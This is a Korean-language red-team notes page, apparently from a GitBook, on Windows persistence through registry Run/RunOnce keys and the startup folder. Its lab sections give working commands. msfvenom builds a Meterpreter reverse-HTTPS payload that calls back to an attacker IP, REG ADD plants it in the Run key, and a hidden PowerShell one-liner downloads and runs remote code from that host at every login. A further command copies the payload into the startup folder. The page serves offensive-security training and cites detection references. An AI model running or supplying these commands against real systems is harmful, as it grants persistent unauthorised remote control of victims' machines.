 # 레지스트리 / 스타트업 폴더

### 레지스트리

윈도우의 레지스트리 키 들 중 다음의 키 들은 유저가 로그인 할 시 자동적으로 특정 프로그램/명령어를 실행한다.

1. `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
2. `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
3. `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
4. `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

### 실습

레지스트리 키에 원하는 프로그램을 등록시키거나 `cmd.exe /c` 혹은 `powershell -enc -command` 등의 플래그를 이용해 명령어를 실행시키면 된다. 레지스트리 키 추가는 다음의 명령어를 이용한다.

```
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v <이름> /t REG_SZ /d <프로그램-경로>
```

#### 레지스트리 + 온디스크 미터프리터

```
# 1. 미터프리터 생성 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.40.182 lport=8443 -f exe -o rev.exe

# 2. 리버스쉘을 c:\wow 에 옮기기 

# 3. 타겟의 레지스트리 키 변경 
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v <이름> /t REG_SZ /d <프로그램-경>

PS C:\Users\Administrator.CHOI> REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v safestartup /t REG_SZ /d C:\wow\rev.exe
The operation completed successfully.

# 4. 로그오프 후 다시 로그인 -> 리버스쉘 확인 
```

![](<../.gitbook/assets/image (120).png>)

#### 레지스트리 + 인메모리 파워쉘 미터프리터

* 파워쉘을 이용한 인메모리 실행을 위해서는 `iex (new-object net.webclient).downloadstring()` 을 이용한다.
* 레지스트리 키의 길이 제한은 255자이기 때문에 이에 유의해 레지스트리 키를 생성한다.

```
# 1. 메타스플로잇 설정 
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_https
set lhost <ip>
set lport <port>
exploit

# 2. 타겟의 레지스트리 키 변경 - 메타스플로잇의 파워쉘 원라이너 사용 
# #1 번에서 나온 "[*] Using URL: http://192.168.40.182:8080/XXzjZN0FVh" 사용 
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v <이름> /t REG_SZ /d "<프로그램-경로>"

REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v pshstartup /t REG_SZ /d "c:\windows\system32\windowspowershell\v1.0\powershell.exe -nop -w hidden iex(New-Object net.webclient).DownloadString('http://192.168.40.182:8080/XXzjZN0FVh')"

# 3. 로그오프 -> 로그인 후 리버스쉘 확인 
```

![](<../.gitbook/assets/image (79).png>)

### 스타트업 폴더

스타트업 폴더는 유저가 로그인 해 세션을 구축할 시 폴더 안의 프로그램을 자동으로 실행시킨다. 공격자들은 스타트업 폴더를 이용해 매번 유저가 로그인 할 때마다 비컨/리버스쉘을 받는 등의 지속성 공격을 실행할 수 있다.

스타트업 폴더의 경로는 다음과 같다:

* `유저: C:\Users\<유저>\Appdata\Roaming\Microsoft\Windows\Start Menu\Programs\StartUp`
* `시스템: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

로컬 관리자 권한을 갖고 있다면 시스템 스타트업 폴더를 이용할 수 있다. 여기서 실행되는 프로세스들은 어떤 유저가 로그인 하던간에 실행된다.

### 실습

미터프리터를 생성한 뒤, 타겟 호스트의 스타트업 폴더에 미터프리터 파일을 옮긴다. 그 후 로그오프 -> 로그인을 해서 리버스쉘이 도착하는지 확인한다.

```
# 1. 미터프리터 생성 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.40.182 lport=8443 -f exe -o rev.exe

# 2. 미터프리터 타겟 호스트로 전송 

# 3. 타겟 호스트에서 미터프리터를 스타트업 폴더로 복사 
cp <미터프리터 경로> 'C:\Users\<유저-이름>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\'

4. 로그오프 -> 로그인 후 리버스쉘 확인 
```

### 레퍼런스

{% embed url="https://www.elastic.co/guide/en/security/current/startup-folder-persistence-via-unsigned-process.html" %}

{% embed url="https://labs.withsecure.com/blog/attack-detection-fundamentals-code-execution-and-persistence-lab-2/" %}

{% embed url="https://dmcxblue.gitbook.io/red-team-notes/persistence/registry-keys-startup-folder" %}

<details>

<summary>추가 리서치 - todo</summary>

```
다음 레지스트리 키 들은 스타트업 폴더의 경로를 바꿀 수 있다. 윈도우의 기본 스타트업 폴더 경로가 아니라 다른 폴더 경로를 스타트업 폴더로 바꾸고 싶을 때 이 레지스트리에 값들을 추가한다.
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

</details>
